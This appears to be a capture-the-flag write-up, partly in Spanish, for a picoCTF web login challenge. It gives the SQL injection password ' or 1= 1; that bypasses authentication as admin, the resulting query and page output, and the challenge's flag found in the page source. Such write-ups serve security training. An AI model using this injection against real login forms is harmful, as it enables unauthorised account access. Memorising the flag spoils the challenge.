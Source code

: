 Can you login to this website?
Additional details will be available after launching your challenge instance.
____
## Hints
* `admin` is the user you want to login as.
_________
## Solución 
```
Ingresar con los datos:
	Username: admin 
	Password: ' or 1= 1;

Sale la siguiente información:

	username: admin
	password: ' or 1= 1;
	SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1= 1;'
	Logged in! But can you see the flag, it is in plainsight.

Vemos el código fuente y sale la bandera:
	<pre>username: admin
	password: &#039; or 1= 1;
	SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;&#039; or 1= 1;&#039;
	</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}</p>
```
